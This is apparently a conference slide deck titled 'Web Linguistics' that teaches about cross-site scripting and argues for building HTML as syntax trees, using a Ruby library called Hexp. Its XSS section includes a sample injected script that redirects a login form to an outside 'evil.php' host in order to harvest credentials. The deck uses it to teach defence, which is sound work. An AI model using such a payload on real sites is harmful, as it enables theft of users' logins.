


# Web Linguistics

## Towards Higher Fluency

by Arne Brasseur / [plexus](https://github.com/plexus)

---

Moi

Freelance Ruby Dev

Shoes, Rails Girls Berlin, Ruby Monsters

Twitter / Github : @plexus

---



---

# XSS

## Cross site scripting


---
{:.big}

XSS enables attackers to inject client-side script into Web pages viewed by other users

---

## XSS

Code like this

```ruby
"<div>#{ @post.body }</div>"
```

Will lead to malicious injection

```html
<script>
 document.getElementById('login_form').
   action="http://208.246.24.14/evil.php"
</script>
```

---

**session hijacking**

attacker can surf the site with user credentials

---

## Escape!

The common wisdom is to "escape" the inserted value

```html
<div>#{ escape_html(@post.body) }</div>
```

Now the code is harmless

```html
<div>
  &lt;script&gt; ... &lt;/script&gt;
</div>
```

---

## XSS

Is a more common

vulnerability than

buffer overflows

---

**why** is it so **hard?**

---

Manual escaping? **hard**

Let's automate!

```html
# using HTML::SafeBuffer
<div><%= @post.body %></div>
```

And it **just works**

---

We've turned the problem around

Whitelist instead of blacklist

```ruby
def helper
  "<p> haikus are pretty <p>".html_safe
end
```

**We're still manually deciding what (not) to escape**

---


---


---

# Language

## langue, taal, sprache, 語言

---


---



---

````dot
graph platypus {
  node[shape=none color=blue fontcolor=blue];
  edge[color=blue];

  s[label=sentence shape=oval];
  subject[];
  action[];
  place[];
  verb[];
  object[];

  platypus[fontcolor=red];
  carry[fontcolor=red];
  chicken[fontcolor=red];
  forest[fontcolor=red];

  s -- subject
  subject -- platypus
  s -- action
  action -- verb
  action -- object
  verb -- carry
  object -- chicken
  s -- place
  place -- forest;
}
````


---

<span class="box">A platypus</span><span class="box">is carrying</span><span class="box">a chicken</span><span class="box">in the forest</span>

---


---

## Magic of language

* Listener reconstructs abstract representation
* Identical "tree" is shared between speakers
* Each derive meaning from this representation

---

# Formal Language

---

a **formal language** is

a **set of strings** of symbols

governed by **strict rules**

---

These rules form the **grammar**

of the language, they specify

how to **generate** valid strings

---

```
alphabet = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9,
            +, *, (, ), =}

<equation>   ::= <expression> = <expression>

<expression> ::= <number>  | <sum> |
                 <product> | ( <expression> )

<number>     ::= <digit> | <digit> <number>

<digit>      ::= 0 | 1 | 2 | 3 | 4 |
                 5 | 6 | 7 | 8 | 9

<sum>        ::= <expression> + <expression>

<product>    ::= <expression> * <expression>
```

---

well-formed :

```
5 = 3 + 2
4 * 4 = 10 + 6
10 + 20 = ( 3 + 5 ) * 7
```

not well-formed :

```
5 = + 5
10 = 15 - 5
3 * 5 + 7
```

---


---

The **meaning** of a sentence

corresponds with

its **syntax tree**

---

## Language is everywhere

* Programming languages
* Markup & styling languages
* Data languages
* Network protocols

---

Your application either

**consumes** or **generates**

these languages

---

In either case it should

use **syntax trees**

to do so

---

# Why ?

---

## The problem

Semantics of string are twofold

* a string
* a textual representation of HTML

---

When handling input

* Treat it as a formal language
* Separate recognition from processing

---

If input handling is done ad-hoc

* recognition is scattered across the program
* it doesn't match the programmer's assumptions
* it becomes a weird machine for an attacker to program

---

http://langsec.org

Meredith L. Patterson : "The Science of Insecurity"

---

We can apply similar reasoning to **output** handling

---

When generating output

* Treat it as a formal language
* Separate language generation from program logic

---

If output handling is done ad-hoc

* language generation is scattered across the program
* it doesn't match the programmer's assumptions
* it becomes a weird machine for an attacker to program

---

# XSS is a Failure at the Language Level

---


---


---

# Abolish Your Templates, Burn Your Helpers

---

# Preventing XSS Through Architecture

---

Other examples
- Yesod
- Noinject

---

# Hexp

---

## Creating nodes

* object
* sexp
* builder

---

## Manipulating Nodes

---

# Other use cases

* deface
* populate forms
* pretty print
* self contained

---

# Modular (think : CMS)

* discount module

---

# Working with designers

* Living Styleguide FTW
